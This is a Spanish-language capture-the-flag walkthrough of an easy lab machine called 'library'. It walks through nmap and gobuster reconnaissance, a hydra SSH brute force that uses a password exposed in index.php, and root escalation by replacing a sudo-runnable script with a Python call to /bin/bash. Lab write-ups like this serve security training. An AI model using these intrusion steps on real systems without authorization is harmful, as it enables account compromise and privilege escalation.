





# Máquina library

---

Dificultad -> Fácil

---

Comenzamos con un nmap para ver servicios abiertos

```shell
nmap -p- --open -sV -sC -sS --min-rate=5000 -n -Pn 172.17.0.2
```

```shell
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 f9:f6:fc:f7:f8:4d:d4:74:51:4c:88:23:54:a0:b3:af (ECDSA)
|_  256 fd:5b:01:b6:d2:18:ae:a3:6f:26:b2:3c:00:e5:12:c1 (ED25519)
80/tcp open  http    Apache httpd 2.4.58 ((Ubuntu))
|_http-server-header: Apache/2.4.58 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
MAC Address: 02:42:AC:11:00:02 (Unknown)
```

Se puede ver un ssh y una pagina web con lo que parece una página default de Apache2 montado en un Ubuntu, miro un poco el codigo fuente pero no hay nada interesante asi que procedo a hacer fuzzing con gobuster

```shell
gobuster dir -u http://172.17.0.2 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x js,txt,php,html -t 64  
```

```shell
/index.php            (Status: 200) [Size: 26]
/index.html           (Status: 200) [Size: 10671]
/javascript           (Status: 301) [Size: 313] [--> http://172.17.0.2/javascript/]
/server-status        (Status: 403) [Size: 275]
```

Encuentro que hay 2 index, un php y un html, si entro al html es simplemente la pagina default de apache y en el php me aparece lo siguiente:



Parece una contraseña asi que con hydra hago fuerza bruta al ssh usando esto como contraseña

```shell
hydra -L /usr/share/wordlists/rockyou.txt -p JIFGHDS87GYDFIGD ssh://172.17.0.2 -t 8 -I
```

Y efectivamente es la contraseña de un tal carlos



Con estas credenciales, estamos dentro de la máquina por ssh.

Como siempre, empiezo con un **`sudo -l`** y veo que puedo ejecutar como root un script en /opt



No podemos modificar el script, sin embargo, podemos eliminarlo, entonces elimino el script y creo otro con el mismo nombre



Dentro de este script pongo para que abra una terminal de bash con:

```python
import os; os.system("/bin/bash")
```

Finalmente ejecuto este script con sudo



y acabo esta máquina siendo root :)
